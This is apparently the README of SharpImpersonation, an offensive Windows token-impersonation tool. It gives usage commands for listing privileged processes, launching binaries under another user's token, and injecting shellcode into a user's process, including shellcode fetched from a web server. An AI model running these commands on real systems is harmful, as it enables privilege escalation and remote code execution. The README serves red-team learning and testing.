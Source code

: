 # SharpImpersonation

This was a learning by doing project from my side. Well known techniques are used to built *just* another impersonation tool with some improvements in comparison to other public tools. The code base was taken from:

* [https://github.com/0xbadjuju/Tokenvator](https://github.com/0xbadjuju/Tokenvator)

A blog post for the intruduction can be found here:

* [https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/](https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/)

## Usage examples

===========================    List user processes    ===========================

`SharpImpersonation.exe list`

![alt text](https://raw.githubusercontent.com/S3cur3Th1sSh1t/SharpImpersonation/main/Images/List.PNG)

===========================    List only elevated processes    ===========================

`SharpImpersonation.exe list elevated`

===========================    Impersonate the first process of <user> to start a new <binary>    ===========================

`SharpImpersonation.exe user:<user> binary:<binary-Path>`

![alt text](https://raw.githubusercontent.com/S3cur3Th1sSh1t/SharpImpersonation/main/Images/CreateProcessWithTokenW.PNG)

======================  Inject base64 encoded shellcode into the first process of <user>  ======================

`SharpImpersonation.exe user:<user> shellcode:<base64shellcode>`

![alt text](https://raw.githubusercontent.com/S3cur3Th1sSh1t/SharpImpersonation/main/Images/ShellcodeBase64.PNG)

======================  Inject shellcode loaded from a webserver into the first process of <user>  ======================

`SharpImpersonation.exe user:<user> shellcode:<URL>`

![alt text](https://raw.githubusercontent.com/S3cur3Th1sSh1t/SharpImpersonation/main/Images/ShellcodeWebDownload.PNG)

======================  Impersonate user <user> via ImpersonateLoggedOnuser for the current session  ======================

`SharpImpersonation.exe user:<user> technique:ImpersonateLoggedOnuser`

![alt text](https://raw.githubusercontent.com/S3cur3Th1sSh1t/SharpImpersonation/main/Images/ImpersonateLoggedOnUser.png)